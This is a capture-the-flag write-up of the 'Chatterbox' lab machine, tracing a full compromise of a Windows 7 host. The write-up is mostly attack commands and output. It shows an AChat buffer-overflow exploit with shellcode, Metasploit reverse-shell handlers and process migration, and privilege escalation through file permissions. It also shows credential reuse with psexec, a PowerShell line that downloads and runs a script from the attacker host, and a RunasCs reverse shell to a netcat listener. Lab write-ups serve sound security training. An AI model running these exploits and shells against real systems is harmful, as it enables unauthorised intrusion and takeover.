


# Chatterbox

## Machine Info


## Recon

### port

- 135, xxxx: RPC
- 139, 445: Samba
- 9255, 9256: AChat chat system

```console
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 (93%), Microsoft Windows 8.1 (93%), Microsoft Windows 8.1 Update 1 (93%), Microsoft Windows 7 Enterprise (93%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 SP1 or Windows 8.1 Update 1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold

### AChat: CVE: 2015-1578,2015-1577

> **References**:
>
> https://github.com/mpgn/AChat-Reverse-TCP-Exploit
> https://www.exploit-db.com/exploits/36025

1. Create revshell payload

```console
└─╼$ ./AChat_Payload.sh
RHOST: 10.129.22.71
LHOST: 10.10.16.24
LPORT: 1234
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 876 (iteration=0)
x86/unicode_mixed chosen with final size 876
Payload size: 876 bytes
Final size of python file: 4318 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
...
buf += b"\x32\x4a\x39\x70\x32\x33\x6b\x4f\x68\x55\x41\x41"
```

2. Start msf listener

```console
└─╼$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.16.24; set lport 1234; set exitfunc thread; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.16.24
lport => 1234
[*] Started reverse TCP handler on 10.10.16.24:1234
[*] Sending stage (175686 bytes) to 10.129.22.71
[*] Meterpreter session 1 opened (10.10.16.24:1234 -> 10.129.22.71:49160) at 2024-02-21 13:44:31 +0800
```

3. Trigger buf overflow and receive shell on msf handler

```console
└─╼$ python2 AChat_Exploit.py
[+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER
---------------------------------------------------------------------------------
meterpreter > getuid
Server username: CHATTERBOX\Alfred
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

### Msf Session Migrate

AChat session dies after exploiting: migrate shell into another process



```console
└─╼$ cat ~/pwk/tools/automigrate.rc 
run post/windows/manage/migrate
getuid
getprivs
--------------------------------------------------------------------------------
└─╼$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.16.24; set lport 1234; set AutoRunScript multi_console_command -r ~/pwk/tools/automigrate.rc; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.16.24
lport => 1234
AutoRunScript => multi_console_command -rc ~/pwk/tools/automigrate.rc
[*] Started reverse TCP handler on 10.10.16.24:1234
[*] Sending stage (175686 bytes) to 10.129.91.236
[*] Session ID 4 (10.10.16.24:1234 -> 10.129.91.236:49161) processing AutoRunScript 'multi_console_command -r /home/qwe/script/automigrate.rc'
[*] Running Command List ...
[*]     Running command run post/windows/manage/migrate
[*] Running module against CHATTERBOX
[*] Current server process: AChat.exe (2964)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 2340
[+] Successfully migrated into process 2340
[*]     Running command getuid
Server username: CHATTERBOX\Alfred
[*]     Running command getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

[*] Meterpreter session 4 opened (10.10.16.24:1234 -> 10.129.91.236:49161) at 2024-02-21 14:37:04 +0800
```

## Privilege Escalation

### msf: local_exploit_suggester

```console
post/multi/recon/local_exploit_suggester
----------------------------------------
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.91.236 - Collecting local exploits for x86/windows...
[*] 10.129.91.236 - 190 exploit checks are being tried...
[+] 10.129.91.236 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.91.236 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.129.91.236 - Valid modules for session 4:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

- `exploit/windows/local/ms14_058_track_popup_menu`

### Alfred: full permission on Administrator dir

Enumeration could be gained by both `icacls` and `winpeas`



```console
c:\Users>icacls .\*
icacls .\*
.\Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                CHATTERBOX\Administrator:(OI)(CI)(F)
                BUILTIN\Administrators:(OI)(CI)(F)
                CHATTERBOX\Alfred:(OI)(CI)(F)

.\Alfred NT AUTHORITY\SYSTEM:(OI)(CI)(F)
         BUILTIN\Administrators:(OI)(CI)(F)
         CHATTERBOX\Alfred:(OI)(CI)(F)
         
c:\Users\Administrator>icacls .\*
.\Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          CHATTERBOX\Administrator:(I)(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(F)
          CHATTERBOX\Alfred:(I)(OI)(CI)(F) -> set root.txt with (F)
          
c:\Users\Administrator\Desktop>icacls .\*
icacls .\*
.\desktop.ini NT AUTHORITY\SYSTEM:(I)(F)
              CHATTERBOX\Administrator:(I)(F)
              BUILTIN\Administrators:(I)(F)
              CHATTERBOX\Alfred:(I)(F)

.\root.txt CHATTERBOX\Administrator:(F)


c:\Users\Administrator\Desktop>icacls root.txt /grant CHATTERBOX\Alfred:(F)
icacls root.txt /grant CHATTERBOX\Alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
85c70eaf47...e1e817a2d9e
```

### Leakage Credential

Methods:

1. Use `psexec` to login:

```console
impacket-psexec administrator@10.129.91.236 [x]
impacket-psexec alfred@10.129.91.236 [yes]
```

```console
└─╼$ impacket-psexec administrator@10.129.91.236
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.91.236.....
[*] Found writable share ADMIN$
[*] Uploading file EeTMwvMu.exe
[*] Opening SVCManager on 10.129.91.236.....
[*] Creating service OhVH on 10.129.91.236.....
[*] Starting service OhVH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

2. Use nishang's Invoke-PowerShellTcp.ps1 with re-used credential

```console
PS C:\qwe> $user='administrator'
PS C:\qwe> $pass='Welcome!'|ConvertTo-SecureString -AsPlainText -Force
PS C:\qwe> $cred=New-Object System.Management.Automation.PSCredential($user,$pass)
PS C:\qwe> Start-Process -FilePath 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.24/rev.ps1')" -Credential $cred
```

3. Use `RunasCs` to execute commands as admin

```console
# PoC
PS C:\qwe> ./RunasCs.exe administrator Welcome1! "cmd /c whoami"
chatterbox\administrator

# Exploit
PS C:\qwe> ./RunasCs.exe administrator Welcome1! cmd.exe -r 10.10.16.24:6666
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 6244 created in background.
-----------------------------------------------------------------------------
└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.91.236] 49186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

## Exploit Chain

port scan: AChat system with CVE -> msf exploit & migrate session -> credential leakage & re-use credential -> psexec | powershell nishang revshell | runascs -> admin shell

## Beyond Root

### psexec login

To successfully log in using `impacket-psexec`, the following conditions are needed:

- **Valid Credentials**: You must possess valid Windows login credentials, either a username and password or a username and NTLM hash (also known as a password hash).
- **Network Access**: You must be able to access the target system over the network. This typically means that the firewall settings of the target system allow inbound connections from your current system.
- **Sharing and Services**: The target Windows system must have the Server Service (responsible for file and print sharing) and Remote Procedure Call (RPC) services enabled. `impacket-psexec` relies on these services to upload temporary services or execute code.
- **Appropriate Permissions**: Your account credentials must have sufficient permissions to create services on the target machine. Typically, this means you must have administrative rights.
- **SMB and RPC Endpoints Open**: The target system must have the SMB service open on TCP ports 139/445 and allow RPC communication.
- **Remote Service Management**: Windows systems usually allow administrative users to create and manage services over the network, which is the basis for `impacket-psexec` to work.

### psexec necessary permission

To log in to a Windows system and execute commands using `impacket-psexec` or other similar remote execution tools, you typically need the following permissions:

- **Local Administrator Rights**: The remote user must have administrator rights on the target machine. This allows the user to create and manage services, including installing and executing new services.

- **Service Control Permissions**: The user must have the right to access the Service Control Manager (SCM) to create, start, and stop services. SCM is a special system process that manages Windows services.

- **File System Access Rights**: The user needs permission to upload and execute files in the appropriate locations on the target system. This often means having write access to system folders.

- **Network Share and Remote Access Rights**: The user needs the rights to access shared resources on the target machine over the network, such as using the Server Message Block (SMB) protocol.

- **Firewall and Security Policy Exceptions**: The user's machine must be allowed by the target system's firewall and security policies to conduct inbound and outbound communication.
